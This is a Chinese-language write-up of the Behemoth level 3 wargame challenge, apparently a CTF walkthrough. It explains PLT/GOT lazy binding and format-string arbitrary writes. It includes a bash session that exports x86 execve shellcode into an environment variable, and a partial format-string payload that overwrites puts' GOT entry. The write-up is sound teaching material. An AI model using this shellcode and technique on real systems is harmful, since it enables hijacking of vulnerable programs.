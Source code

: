 &ensp;&ensp;&ensp;&ensp; 1. 加载器将的GOT表下标3开始的项初始化为其对应PLT条目的第二条指令。这里我用GOT表项下多个写断点来验证的,发现断点触发时，多个项都已经更新了。

&ensp;&ensp;&ensp;&ensp; 2. 记载器加载和运行动态连接器。动态链接器初始化GOT[1],GOT[2]。GOT[2]是动态连接器在ld-linux.so的入口点,GOT[1],GOT[0]是动态链接器需要用的的其他信息。
&ensp;&ensp;

&ensp;&ensp; **lazy binding过程：**

&ensp;&ensp;&ensp;&ensp;1. 调用`printf`跳转到其对应的PLT条目第一条指令。

&ensp;&ensp;&ensp;&ensp;2. 通过`printf`对应的GOT表项间接跳转跳转到PLT条目的下一条指令(因为其GOT表项被初始化为PLT条目下一条指令)。

&ensp;&ensp;&ensp;&ensp;3. 将函数ID入栈。跳转到PLT[0]第一条指令。

&ensp;&ensp;&ensp;&ensp;4. PLT[0]通过GOT[1]间接地把动态链接器第一个参数入栈，然后通过GOT[2]间接跳转到动态连接器中。动态链接器确定`printf`的运行时位置后用这个地址重写printf对应的GOT条目。再把控制传递给`printf`。

&ensp;&ensp; **下一次调用`printf`过程** 和上面步骤一样，不同的是`printf`对应的GOT表项有`printf`函数的地址了，步骤2就可以直接跳转到`printf`函数地址了。

---

上述就是延迟绑定的过程,现在让我们回到这道题中来。



可以看出`.got.plt`节是一个可写的存有函数指针的数组,并且加载到内存中的地址还可以预测,我们利用字符串格式漏洞 **任意地址写** 来完成。

---

**格式化字符任意写原理:**

关于格式化字符串漏洞可以参考这篇[文章](https://axcheron.github.io/exploit-101-format-strings/#random-write)。这里简单说下利用原理。

* 可以用`%<num>$n`来指定写入位置,`%n`接受的是一个地址参数，将会在那个地址里面写入。`%<num>$s`可以指定读位置,同样接受的是地址参数。比如`printf("%2$x", 1, 2, 3)`将会打印2。
* `AAAA%96x%7$n`将会在第七个(从0开始,第0个参数是format字符串指针)参数地址所对应的内存上写100。
* 想写入的数可能很大,比如写地址的时候,要经过很久才能输出得完,但我们可以拆分成2字节来写(%hn)。

---

知道原理了，就可以回到这道题中来了。

* 在进入位于地址`080484BF`的`printf`函数之前，栈上format指针参数与实际内容相差1个地址。
* 我们需要写的地址是`0x080497AC`,也就是GOT表中,puts函数的地址,这里用一个还没有解析的函数地址来写。
* 在GOT表中，我们需要写入环境变量中SHELLCODE的地址。

```bash
behemoth3@behemoth:~$ cd /tmp/tmp.Yi69vHyF7y
behemoth3@behemoth:/tmp/tmp.Yi69vHyF7y$ export SHELLCODE=$(python -c 'print 20 * "\x90" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0f\x2c\x04\xcd\x80"')
behemoth3@behemoth:/tmp/tmp.Yi69vHyF7y$ ./find_add SHELLCODE
SHELLCODE is at 0xffffde25
```

有个问题，拿到SHELLCODE地址为`0xffffde25`，因为写的数量只能是递增的,所以我们需要从低位先写。

所以我们构造的字符串看起来像这样：`\xac\x97\x04\x08\xae\x97\x04\x08<val1>x%1$hn%<val2>%2$hn`
